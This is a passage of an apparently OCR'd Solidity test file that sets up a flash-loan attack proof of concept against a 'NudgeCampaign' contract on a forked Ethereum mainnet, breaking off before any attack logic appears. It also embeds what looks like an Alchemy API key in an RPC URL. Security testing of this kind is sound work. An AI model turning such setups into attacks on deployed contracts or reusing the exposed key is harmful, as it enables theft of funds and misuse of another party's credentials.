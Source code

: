 ```
    uint256 fromAmount;
    bytes callData;
    bool requiresDeposit;
  }
}

interface ILifiExecutor is IERC20 {
  function erc20Proxy() external view returns (address);
  function swapAndExecute(
    bytes32 _transactionId,
    LibSwap.SwapData[] calldata _swapData,
    address _transferredAssetId,
    address payable _receiver,
    uint256 _amount
  )
    external
    payable;
}

contract NudgeCampaignAttackTest is Test {
  NudgeCampaign private campaign;
  address NATIVE_TOKEN = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
  address owner;
  uint256 constant REWARD_PPQ = 2e13;
  uint256 constant INITIAL_FUNDING = 100_000e18;
  address campaignAdmin = address(14);
  address nudgeAdmin = address(15);
  address treasury = address(16);
  address operator = address(17);
  address alternativeWithdrawalAddress = address(16);
  address campaignAddress;
  uint32 holdingPeriodInSeconds = 60 * 60 * 24 * 7; // 7 days
  uint256 rewardPPQ = 2e13;
  uint256 RANDOM_UUID = 111_222_333_444_555_666_777;
  uint16 DEFAULT_FEE_BPS = 1000;
  NudgeCampaignFactory factory;
  address constant SWAP_CALLER = 0x2dfaDAB8266483beD9Fd9A292Ce56596a2D1378D; //LIFI EXECUTOR
  string constant MAINNET_RPC_URL = "https://eth-mainnet.g.alchemy.com/v2/j7SKDcG36WqFJxaAGYTsKo6IIDFSmFhl";
  IERC20 constant WETH = IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2); //rewardToken
  IERC20 constant DAI = IERC20(0x6B175474E89094C44Da98b954EedeAC495271d0F); //toToken
  ILifiExecutor constant LIFI_EXECUTOR = ILifiExecutor(0x2dfaDAB8266483beD9Fd9A292Ce56596a2D1378D);

  FlashLoanAttackContract flashLoanAttackContract;
  address attacker = makeAddr("Attacker");
  uint256[] pIDsWithOne = [1];

  function setUp() public {
    vm.createSelectFork(MAINNET_RPC_URL);

    owner = msg.sender;

    factory = new NudgeCampaignFactory(treasury, nudgeAdmin, operator, SWAP_CALLER);

    campaignAddress = factory.deployCampaign(
      holdingPeriodInSeconds,
      address(DAI),
      address(WETH),
      REWARD_PPQ,
      campaignAdmin,
      0,
      alternativeWithdrawalAddress,
      RANDOM_UUID
```